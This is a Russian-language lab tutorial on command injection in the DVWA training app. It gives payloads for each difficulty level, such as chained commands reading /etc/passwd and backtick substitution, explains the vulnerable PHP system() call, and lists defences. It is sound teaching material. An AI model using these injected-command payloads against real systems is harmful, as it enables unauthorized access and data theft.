```yaml
---

## 💣 Что такое **Command Injection**?

Это когда веб-приложение **исполняет системные команды на стороне сервера**, используя **нефильтрованные пользовательские данные**. Если параметр передаётся напрямую в `bash`, `sh`, `system()` или `exec()`, мы можем "вырваться" из логики приложения и выполнить **любой shell-команду**.

---
```


## 📍 **Где вводить команды в DVWA?**

**DVWA > Command Injection**

```url
http://localhost:8081/vulnerabilities/exec/
```

**Форма:**
"Enter an IP address to ping" → сюда можно вставлять payload.

---

## 🧪 Примеры для всех уровней

### 🔓 Low

```bash
127.0.0.1; cat /etc/passwd
127.0.0.1 && uname -a
127.0.0.1 | ls -la
```

**Почему работает:** `ping` вызывается так:

```php
system("ping -c 4 " . $_GET['ip']);
```

Мы можем **выйти** из этой команды и **добавить свою**, потому что строка интерпретируется как есть.

---

### 🟠 Medium

```bash
127.0.0.1 | whoami
127.0.0.1 && id
```

**Фильтрация частичная:** возможно, блокируются `;`, но не `|` и `&&`. В коде могут быть простые проверки:

```php
if (preg_match('/;/', $ip)) {
    echo "Hacking attempt!";
} else {
    system("ping -c 4 $ip");
}
```

Мы просто используем **другие операторы shell'а**.

---

### 🔒 High

```bash
127.0.0.1 && whoami
127.0.0.1 | ls /tmp
```

**Фильтрация жёстче**, но не идеальная. Скорее всего фильтруются `;`, `|`, `&&`, `||` — но можно искать обходы:

```bash
127.0.0.1 `whoami`         # Используем бэктики
127.0.0.1 $(whoami)        # Или подстановку
```

Иногда обход работает, если проверка регулярками недостаточно строгая.

---

## 🧪 Как и **почему это работает**

В отличие от SQLi и XSS, здесь ты **внедряешь код прямо в shell**.

* Программа на сервере (на PHP, Python, и т.д.) вызывает **shell-команду**, как правило, через:

  * `system()`
  * `exec()`
  * `shell_exec()`
  * `popen()`
* Если **твой ввод** не экранируется и не валидируется, ты можешь дописать свою команду.
* Всё это **выполняется от имени веб-сервера (обычно www-data)** → ты можешь читать файлы, запускать процессы, иногда даже получить reverse shell.

---

## 🛡️ Защита от Command Injection

### ✅ Подход №1: **Никогда не вызывай shell напрямую**

Пользуйся **API** или **встроенными средствами**, а не `system()`.

```php
$ip = escapeshellarg($_GET['ip']);
system("ping -c 4 $ip");  // минимум защита
```

### ✅ Подход №2: **Разделяй данные и код**

Аналогично PDO в SQL: данные должны быть данными, а не частью команды.

### ✅ Подход №3: **Whitelist + типизация**

```php
$valid_ips = ['127.0.0.1', '192.168.0.1'];
if (in_array($_GET['ip'], $valid_ips)) {
    system("ping -c 4 " . $_GET['ip']);
}
```

Или:

```php
if (filter_var($ip, FILTER_VALIDATE_IP)) {
    system("ping -c 4 $ip");
}
```

---

## 🧪 Где вводим в **реальных приложениях**?


* **Формы**, которые запускают действия: ping, traceroute, backup, upload.
* **Поля конфигурации**, куда можно вставить команды (часто в админках).
* **Функции обработки файлов** — особенно при парсинге и автоматизации.
* **CI/CD пайплайны** (GitLab CI, Jenkins) — часто уязвимы, если переменные подставляются в shell без экранирования.

